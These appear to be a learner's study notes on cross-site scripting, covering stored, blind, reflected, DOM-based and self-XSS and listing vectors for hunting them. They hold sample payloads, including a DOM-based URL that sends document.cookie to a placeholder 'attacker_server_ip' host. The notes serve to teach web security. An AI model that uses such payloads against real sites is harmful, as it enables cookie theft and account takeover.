 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

   ### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.

